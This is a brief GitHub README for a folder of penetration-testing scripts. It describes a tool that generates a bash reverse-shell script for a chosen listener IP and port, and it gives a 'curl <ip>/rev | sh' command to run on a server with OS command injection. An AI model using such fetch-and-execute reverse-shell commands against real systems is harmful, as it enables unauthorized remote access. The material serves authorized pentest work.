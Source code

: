 # This folder is dedicated to the scripts that are useful for pentest purposes. There are some scripts created by me {Anekant} and some not.
---
## Python reverse shell executer
The original owner: XCT [youtube]
The script is designed to generate a bash script with the specific credentials that are given by the user itself so that he/she can gain the shell via any utility that is present on the server.So that if any os-command injection is there we can use it.
Usage:
```
python3 python_reverse_shell_exectuer.py <lhost> <lport> <filename-you-want-to-give>
```

eg:
python3 resh.py 10.10.14.19 443 rev

execute this on server where os-command-injection is there
```
curl <ip>/rev | sh
```
Refer for more usage: https://youtu.be/FYWGhdaDcZo?si=aUTgz8Ryix8C4LhS
---


